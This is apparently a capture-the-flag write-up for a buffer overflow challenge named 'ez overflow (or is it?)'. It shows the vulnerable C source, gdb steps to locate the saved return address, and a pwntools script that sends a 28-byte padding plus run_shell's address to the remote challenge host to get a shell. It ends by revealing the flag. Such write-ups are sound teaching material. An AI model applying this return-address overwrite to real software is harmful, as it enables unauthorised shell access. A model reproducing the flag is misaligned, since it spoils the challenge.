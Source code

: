 ### CHALLENGE PROMPT :

ez overflow (or is it?)

nc cyberyoddha.baycyber.net 10002

Challenge also included a file called Overflow2

--------------------------------------------------------------------------------

The prompt provides us with a netcat host/ip we can connect into to send our payload.

Overflow2 is the following c programme .

  ```
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>

  void run_shell(){
    system("/bin/sh");
  }

  void vuln(){
    char buf[16];
    gets(buf);
  }

  int main(void) {
    vuln();  
  }
  ```

We have to overwrite the return address saved on the stack from calling the vuln() function 
to redirect the flow of execution to the run_shell() function , in order to get a shell .

Let's use gdb to see whats going on under the hood :

  > gdb Overflow2 
  
After that we disassemble main() :

  >disassemble main
  
![main](https://user-images.githubusercontent.com/73142671/98143877-58665900-1ed2-11eb-8b39-819ea102a6fb.png)

Disassembling main shows that , after vuln function returns , it will continue at address **0x080491da**

Lets disassemble vuln() also :

  >disassemble vuln
  
 ![vuln](https://user-images.githubusercontent.com/73142671/98150889-03c5dc80-1ed8-11eb-8420-14b4f87a12d6.png)
 
 We are gonna place a breakpoint after the gets function is called in vuln so we can mess around with it .

  >b *0x080491bc 
  
  Outputs : " Breakpoint 1 at 0x80491bc: file overflow2.c, line 11. "

Then we are gonna run the programme from the breakpoint , and fill the buffer with 16 characters .

![run](https://user-images.githubusercontent.com/73142671/98151640-286e8400-1ed9-11eb-88f0-c3ffa8b61f38.png)

Let's examine the stack , starting from the stack point register .

  > x/24x $sp
  
![x32](https://user-images.githubusercontent.com/73142671/98151834-74212d80-1ed9-11eb-8aa6-fd6dc3c845cb.png)

  
Using the info frame command we can see where EIP is at .

  >info frame

![eip1](https://user-images.githubusercontent.com/73142671/98152028-c1050400-1ed9-11eb-9742-cb80713d7614.png)

Alternatively , we can calculate it with the find command :

  >find 0xffffd4a0, +96, 0x080491da

Outputs : 

" 0xffffd4cc
1 pattern found. "

After our analysis we know that the return address we’re looking for (0x080491da) 
is at memory location **0xffffd4cc** and the start of buf is at **0xffffd4a0**

Now , we need to disassemble run_shell() to get the function's address .

![shellr](https://user-images.githubusercontent.com/73142671/98153097-59e84f00-1edb-11eb-9132-f656dc4a8dab.png)

Now we have the first address of the run_shell function , **0x08049172**

Alternatively , we could get the above address like this :

  >objdump -d Overflow2 | grep run_shell

which gives us *08049172*

So finally we have to override our return address (0x080491da) with 0x08049172 .

Let's write our exploit in python , utilizing the pwn lib :

  ```
  from pwn import *

  offset = 28

  r = remote('cyberyoddha.baycyber.net', 10002)

  payload = [
      b'A'*offset,
      p32(0x08049172)
  ]

  payload = b''.join(payload)

  r.send(payload)
  r.interactive()

  ```

Executing our programme we get a shell , and thus the flag .

**CYCTF{0v3rfl0w!ng_v@ri@bl3$_i$_3z}**


























